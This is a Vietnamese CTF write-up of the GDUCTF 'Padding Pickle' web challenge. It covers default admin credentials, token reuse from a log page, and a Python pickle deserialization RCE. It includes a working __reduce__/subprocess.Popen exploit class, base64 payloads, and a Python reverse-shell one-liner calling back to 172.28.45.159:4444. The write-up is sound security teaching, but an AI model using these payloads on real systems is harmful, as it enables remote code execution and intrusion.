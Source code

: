# Write up Padding Pickle - GDUCTF
Đầu tiên khi mở challange cho ta một form login, ta thử nhập 1 giá trị bất kỳ thì không đăng nhập được, thử login với username và password đều là ``admin`` thì đăng nhập thành công và redirect ta qua trang ``dashboard``:

![this is image](./img/dashboard.png)

Trang web bảo ta không phải là admin, và cho ta 1 đường dẫn để view log, khi nhấn vào đường dẫn:

![this is image](./img/log.png)

Trang log cho ta thông tin về ``username`` và ``token``, và để ý thấy tại trang ``dashboard`` thì url có nhận 1 param là ``token``, ta thử thay đổi ``token`` đó bằng ``token`` của admin (url encode token trước khi chèn):

![this is image](./img/loginbytoken.png)

Nhìn vào trang web admin có gợi ý ta về ``pickle`` và phần placeholder của input là mã base64 của một serialize pickle, ta suy đoán web này sẽ có ``Pickle-Deserialization vulnerability``

> Pickle là một module cho phép serialize và deserialize object trong Python. 

Ta dùng đoạn code sau để tạo payload:
```python
import subprocess
import base64
import pickle
 
class Exploit(object):
    def __reduce__(self):
        cmd = "whoami"
        return  subprocess.Popen,(cmd,)
 
print(base64.b64encode(pickle.dumps(Exploit())))
```
***Giải thích**: ta dùng hàm ``__reduce___`` để RCE. Vì
1. Hàm ``__reduce__()`` không nhận tham số và sẽ được gọi khi object được ``pickle``
2. Hàm này sẽ return về string hoặc tuple (khuyến khích là tuple). Khi một tuple được return thì tuple đó phải có từ 2-6 items. Trong đó item đầu sẽ là một ``callable object``. Và ``callable object`` này sẽ được gọi để khởi tạo phiên bản ban đầu của object. Item thứ 2 sẽ là một tuple con chứa các tham số của ``callable object`` ở item 1

Ở payload trên thì ``callable object`` là ``subprocess.Popen`` và ``whoami`` là param của ``calable object``
> class ``subprocess.Popen`` cho phép tạo ra một luồng mới trong ứng dụng và thực hiện chương trình con tại luồng mới đó và ``subprocess.Popen`` sẽ nhận tham số là một tuple, mỗi item là của tuple một phần của câu command bất kỳ và cuối cùng sẽ thực hiện câu command đó

Và cuối cùng dùng ``dumps`` để serialize và hàm ``b64encode`` để encode

Output:
``bash
b'gASVJQAAAAAAAACMCnN1YnByb2Nlc3OUjAVQb3BlbpSTlIwGd2hvYW1plIWUUpQu'
``

Ta nhập vào input được kết quả:

![this is image](./img/uploadpickle.png)

Ta thấy web chỉ deserialize payload và hiện ra dòng "I recieved, but can you RCE me?", nên ta không thể cho in output một cách bình thường mà phải dùng reverse shell

Tuy nhiên ta thử dùng ``nc`` và ``bash`` đều không được nên ta thử tới reverse shell bằng ``python``

Ta thay biến ``cmd`` của payload thành:
```python
cmd = "python3","-c",'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.28.45.159",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
Output: 
```bash
b'gASVBgEAAAAAAACMCnN1YnByb2Nlc3OUjAVQb3BlbpSTlIwHcHl0aG9uM5SMAi1jlIzWaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjE3Mi4yOC40NS4xNTkiLDQ0NDQpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCIvYmluL2Jhc2giKZSHlIWUUpQu'
```
Ta dùng ``netcat`` listen trên port 4444 sau đó inject thử:

![this is image](./img/rs.png)

Ta đã thực reverse shell thành công và tiến hành đọc flag:

![this is image](./img/shell.png)





